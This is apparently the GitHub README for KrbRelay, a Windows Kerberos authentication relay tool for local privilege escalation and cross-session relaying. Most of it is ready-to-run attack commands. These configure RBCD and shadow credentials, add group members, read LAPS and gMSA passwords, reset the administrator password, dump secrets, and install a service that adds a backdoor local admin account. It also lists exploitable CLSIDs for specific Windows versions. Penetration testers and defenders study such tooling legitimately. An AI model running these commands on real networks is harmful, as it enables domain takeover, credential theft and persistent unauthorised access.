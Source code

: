 # KrbRelay

Relaying 3-headed dogs.
More details at https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html and https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html

This should be working on most fully patched Windows systems. There may be difficulties with Server OS in lab environments because of the firewall blocking the OXID resolver however, this will most likely not be an issue during real life engagements, same goes for CLSIDs.

![image-20220213094644590](Images/image-20220213094644590.png)

### Supported Protocols and Features

Some protocols are more completed than others, PR's are welcomed. 

* LDAP/LDAPS
* HTTP
  * EWS
* SMBv2
* RPC over SMB
  * MS-SAMR
  * MS-SCMR
  * MS-RPRN
  * MS-RRP
  * MS-LSAT/MS-LSAD

### Examples

````
# LPE
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred

# Cross-Session LDAP
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -laps
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -gmsa
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -reset-password administrator Password123!

# Cross-Session HTTP
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-delegate domain_user@htb.local
.\KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182

# Cross-Session SMB
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-privileges (([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value)
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets 
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -service-add addUser "C:\windows\system32\cmd.exe /c """"C:\windows\system32\net user cube Password123! /add && C:\windows\system32\net localgroup administrators cube /add"""""
````

 `CheckPort.exe` is a C# tool that can be used to discover available ports for the OXID resolver.

```
C:\Users\domain_user\Desktop\KrbRelay\CheckPort\bin\Release\CheckPort.exe
[*] Looking for available ports..
[*] Port: 1024 is available
```



## CLSIDs

We'll need to unmarshal our OBJREF inside of a process that would allow authentications over the network, this can be verified by looking at the `Impersonation Level` 

* RPC_C_IMP_LEVEL_DEFAULT			 # Will not work
* RPC_C_IMP_LEVEL_ANONYMOUS    # Will not work
* RPC_C_IMP_LEVEL_IDENTIFY             # Works for LDAP
* RPC_C_IMP_LEVEL_IMPERSONATE   # Required for SMB
* RPC_C_IMP_LEVEL_DELEGATE

When relaying to LDAP or any other service that has signing enabled but not enforced we would also need to verify that the `Authentication Level` of the process is set to `RPC_C_AUTHN_LEVEL_CONNECT`.

Processes running under `NT Authority\Network service` will use the SYSTEM account when authenticating over the network.

Tool for discovering CLSIDs: https://github.com/tyranid/oleviewdotnet

```powershell
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid
Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' | select ProcessId,ExecutablePath,Name,AppId,User,AuthnLevel,ImpLevel
```



#### Windows 10 1903

```
# SYSTEM Relay
0bae55fc-479f-45c2-972e-e951be72c0c1 # RPC_C_IMP_LEVEL_IDENTIFY
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE 

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE 
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE 
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE 
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE 
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE 
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2019
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
354ff91b-5e49-4bdc-a8e6-1cb6c6877182 # RPC_C_IMP_LEVEL_IMPERSONATE 
38e441fb-3d16-422f-8750-b2dacec5cefc # RPC_C_IMP_LEVEL_IMPERSONATE 
f8842f8e-dafe-4b37-9d38-4e0714a61149 # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2016
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE
5f7f3f7b-1177-4d4b-b1db-bc6f671b8f25 # RPC_C_IMP_LEVEL_IMPERSONATE
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE
98068995-54d2-4136-9bc9-6dbcb0a4683f # RPC_C_IMP_LEVEL_IMPERSONATE
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE
bdb57ff2-79b9-4205-9447-f5fe85f37312 # RPC_C_IMP_LEVEL_IMPERSONATE
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE
```



## Error codes

Doesn't work the first time? try again then check these error codes, and if you are going to open an Issue, please paste the full output.

#### Firewall blocking the OXID resolver

```
System.Runtime.InteropServices.COMException (0x800706BA): The RPC server is unavailable. (Exception from HRESULT: 0x800706BA)
```
#### Bad CLSID

```
System.Runtime.InteropServices.COMException (0x80080004): Bad path to object (Exception from HRESULT: 0x80080004 (CO_E_BAD_PATH))
```
#### Kerberos Issues (Authentication type not recognized), Will work after reboot/clock sync

```
System.Runtime.InteropServices.COMException (0x800706D3): The authentication service is unknown.
```

#### Parsing Error, valid apRep tickets starts with 6f

```
[*] apRep1: fe534d4240000100160000c00100010001000000000000000100000000000000000000000000000035000000006c0000000000000000000000000000000000000900000048006000605e06092a864886f71201020203007e4f304da003020105a10302011ea411180f32303232303230373134303935325aa5050203045ad0a603020121a90b1b094854422e4c4f43414caa153013a003020101a10c300a1b0877696e3230313624
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```

#### CLSID impersonation level or authentication level too low

```
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```



### Acknowledgements

* [Vletoux ](https://twitter.com/mysmartlogon) for starting [RPCForSMBLibrary](https://github.com/vletoux/RPCForSMBLibrary)
* [James Forshaw](https://twitter.com/tiraniddo) for introducing Kerberos relaying and [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet)
* [TalAloni](https://github.com/TalAloni/) for [SMBLibrary](https://github.com/TalAloni/SMBLibrary)
* [MichaelGrafnetter](https://twitter.com/mgrafnetter) for [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
